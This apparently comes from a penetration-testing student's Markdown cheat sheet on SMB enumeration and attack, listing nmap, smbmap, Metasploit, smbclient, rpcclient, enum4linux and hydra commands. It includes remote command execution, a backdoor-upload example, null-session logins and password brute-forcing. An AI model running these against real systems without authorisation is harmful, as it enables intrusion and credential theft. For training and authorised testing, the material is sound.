 # Sever Message Block (SMB)

* [Connect to Share via Windows CLI](#connect-to-share-via-windows-cli)
* [nmap](#nmap)
* [smbmap](#smbmap)
* [Metasploit](#metasploit)
* [nmblookup](#nmblookup)
* [smbclient](#smbclient)
* [rpcclient](#rpcclient)
* [enum4linux](#enum4linux)
* [hydra](#hydra)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Connect to Share via Windows CLI
```
net use z: \\[TARGET-IP]\c$ [PASSWORD] /user:[USERNAME]
```

***********************************************************************

## nmap

* Check SMB Version/Protocols/Dialects
```
nmap -p 445 --script smb-protocols [TARGET-IP]
```
* Check SMB Security
```
nmap -p 445 --script smb-security-mode [TARGET-IP]
```
* Show SMB Sessions
```
nmap -p 445 --script smb-enum-sessions [TARGET-IP]
```
* Log into SMB Share
```
nmap -p 445 --script smb-enum-sessions --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate SMB Shares & Users
```
nmap -p [PORT] --script=smb-enum-shares.nse,smb-enum-users.nse [TARGET-IP]
```
* After Authenticating
```
nmap -p [PORT] --script=smb-enum-shares.nse,smb-enum-users.nse --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate SMB Shares & List Directories
```
nmap -p [PORT] --script=smb-enum-shares,smb-ls --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* SMB Server Stats
```
nmap -p [PORT] --script=smb-server-stats --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate Domains
```
nmap -p [PORT] --script=smb-enum-domains --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate Groups
```
nmap -p [PORT] --script=smb-enum-groups --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* Enumerate Services
```
nmap -p [PORT] --script=smb-enum-services --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
* SMB OS Discovery
```
nmap -p [PORT] --script smb-os-discovery [TARGET-IP]
```

***********************************************************************

## smbmap
```
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET-IP]
```
```
smbmap -u guest -p "" -d . -H [TARGET-IP]
```
```
smbmap -u [USERNAME] -p "[PASSWORD]" -d . -H [TARGET-IP] -x [COMMAND-TO-RUN]
```
* -L to list drives
* -r to look at contents: -r '[DRIVE-LETTER]'$ | Example: -r 'c$'
* --upload '[FILE-PATH]' '[DESTINATION] | Example: --upload '/root/backdoor' 'C$\backdoor'
* --download '[FILE-PATH]' | Example: --download 'C$\flag.txt'

***********************************************************************

## Metasploit
```
msfconsole
```
```
use auxilary/scanner/smb/[SMB-VERSION]
```
Example:
```
use auxilary/scanner/smb/smb2
```
```
use auxilary/scanner/smb/smb_enumshares
```
```
use auxilary/scanner/smb/smb_login
```
```
use auxilary/scanner/smb/pipe-auditor
```
```
show options 
```
* set fields
```
exploit
```

***********************************************************************

## nmblookup
```
nmblookkup -A [TARGET-IP]
```

***********************************************************************

## smbclient
* Null login
```
smbclient -L [TARGET-IP] -N
```
```
smbclient //[TARGET-IP]/[SHARE] -N
```
* Authenticated login
```
smbclient -L [TARGET-IP] -U [USERNAME]
```
```
smbclient //[TARGET-IP]/[SHARE] -U [USERNAME]
```

***********************************************************************

## rpcclient
```
rpcclient -U "[USERNAME]" -P "[PASSWORD]" [TARGET-IP]
```
```
rpcclient -U "" -N [TARGET-IP]
```
* Command below is only for AFTER connection is made with rpcclient
Service info
```
srvinfo
```
* Show users
```
enumdomusers
```
```
lookupnames [USERNAME]
```
* Show groups
```
enumdomgroups
```

***********************************************************************

## enum4linux
* OS info
```
enum4linux -o [TARGET-IP]
```
* Show users
```
enum4linux -U [TARGET-IP]
```
* Show user SIDs
```
enum4linux -r -u "[USERNAME]" -p "[PASSWORD]" [TARGET-IP]
```
* Show groups
```
enum4linux -G [TARGET-IP]
```
* Show shares
```
enum4linux -S [TARGET-IP]
```
* See if printing is set up
```
enum4linux -i [TARGET-IP]
```

***********************************************************************

## hydra
```
hydra -l [USERNAME] -P [PATH-TO-WORDLIST] [TARGET-IP] smb
```

***********************************************************************

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
